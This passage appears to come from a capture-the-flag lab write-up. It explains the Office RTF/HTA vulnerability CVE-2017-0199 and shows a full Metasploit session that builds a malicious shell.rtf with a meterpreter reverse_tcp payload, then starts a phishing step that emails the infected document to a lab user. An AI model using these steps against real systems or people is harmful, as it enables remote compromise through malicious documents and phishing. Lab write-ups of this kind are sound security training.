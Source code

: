 Performing a search for ways to take advantage of the information collected so far we can find the existence of CVE-2017–0199, which was a critical Zero-Day discovered in April 2017 for Microsoft Office.  
The description of Metasploit for this vulnerability is as follows:  

{% highlight markdown %}
Description: This module creates a malicious RTF file that when opened in vulnerable versions of Microsoft Word will lead to code execution. The flaw exists in how a olelink object can make a http(s) request, and execute hta code in response. This bug was originally seen being exploited in the wild starting in Oct 2016. This module was created by reversing a public malware sample.  
{% endhighlight %} 

Basically this vulnerability leveraged **.rtf** files (some renamed to .doc) which would connect to a remote server (controlled by the attacker) in order to download a file that contains HTML application content, and executes as an .hta file. Because .hta is executable, the attacker gains full code execution on the victim’s machine. This logical bug also gives the attackers the power to bypass any memory-based mitigations developed by Microsoft.  
[Article Complete](https://securingtomorrow.mcafee.com/other-blogs/mcafee-labs/critical-office-zero-day-attacks-detected-wild/)  


## Using Metasploit
We will proceed, with the use of the metasploit module for the **CVE-2017–0199**.

{% highlight s %}
msf5 > use exploit/windows/fileformat/office_word_hta 
msf5 exploit(windows/fileformat/office_word_hta) > set SRVHOST 10.10.14.30
SRVHOST => 10.10.14.30
msf5 exploit(windows/fileformat/office_word_hta) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/office_word_hta) > set LHOST 10.10.14.30
LHOST => 10.10.14.30
msf5 exploit(windows/fileformat/office_word_hta) > set FILENAME shell.rtf
FILENAME => shell.rtf
msf5 exploit(windows/fileformat/office_word_hta) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.30:4444 
msf5 exploit(windows/fileformat/office_word_hta) > [+] shell.rtf stored at /root/.msf4/local/shell.rtf
[*] Using URL: http://10.10.14.30:8080/default.hta
[*] Server started.
{% endhighlight %} 

This module created the malicious file shell.rtf and placed it in the directory /root/.msf4/local/ while also hosting the .hta file on a web server.  

## Sending emails with documents attached by SMTP using swaks 
The next step is to perform an Impersonation attack.  
We will send an email to nico@megabank.com with the infected document attached.   
